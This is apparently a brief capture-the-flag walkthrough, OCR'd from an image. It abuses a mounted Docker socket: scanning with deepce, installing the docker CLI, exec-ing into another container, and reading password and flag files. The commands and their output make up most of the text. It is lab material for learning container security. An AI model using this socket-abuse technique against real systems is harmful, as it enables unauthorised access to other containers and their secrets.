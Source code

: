 1. container scan with deepce https://github.com/stealthcopter/deepce

2. Docker sock is mounted, so look for exploits 

3. install docker cli with apt (apt install docker.io)

4. Now interaction with the docker sock is possible 

root@1nmyd0ck3r:~# docker ps
CONTAINER ID   IMAGE            COMMAND                  CREATED          STATUS          PORTS     NAMES
f9e497f4ce2d   docker_flag      "/bin/sh"                13 minutes ago   Up 13 minutes             docker_flag
76b79677e3cc   docker_escape2   "/bin/sh -c '/etc/in…"   4 months ago     Up 13 minutes             escape2


docker_flag is the interesting container


root@1nmyd0ck3r:~# docker exec -it docker_flag sh
/ # ls
bin     dev     etc     home    lib     media   mnt     opt     passwd  proc    root    run     sbin    srv     sys     tmp     usr     var
/ # cat passwd 
19c948928a782b907614aa8a4ef92570
/ # cat /opt/notes/
cat: read error: Is a directory
/ # cat /opt/notes/
.passwd   note.txt
/ # cat /opt/notes/.passwd 
You got Me ! This is the flag : f4f179a78dae34be3e474d9b3f258da6
/ # cat /opt/notes/note.txt 
Hey mate, nice to meet you here ! :)
/ #

